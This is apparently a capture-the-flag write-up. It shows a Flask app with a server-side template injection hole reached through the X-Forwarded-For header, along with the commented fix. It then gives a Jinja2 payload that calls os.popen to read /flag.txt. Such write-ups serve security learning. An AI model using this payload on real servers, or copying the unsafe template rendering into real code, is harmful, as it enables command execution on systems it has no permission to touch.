



# solution

Look through source code

```
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/")
def home():
    try:
        client_ip = request.headers.getlist("X-Forwarded-For")[0].split(':')[0]
    except:
        client_ip = None
    if not client_ip:
        client_ip = request.remote_addr
    message = f"This page is being accessed from the remote address: {client_ip}"
    return render_template_string(message)
    ## Fix Server Side Template Injection
    # message = "This page is being accessed from the remote address: {{client_ip}}"
    # return render_template_string(message, client_ip=client_ip)

if __name__ == "__main__":
    app.run(debug=True, host='0.0.0.0', port=1337)
```

Hmm, seem i can use x-Forwarded-For header to trigger ssti vulnerability, firstly let fuzz a bit.
<br>
Server use jinja2. Let try a basic payload and its work.
<br>
Then i go to hacktrick and find a proper payload

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /flag.txt').read() }}
```

<br>
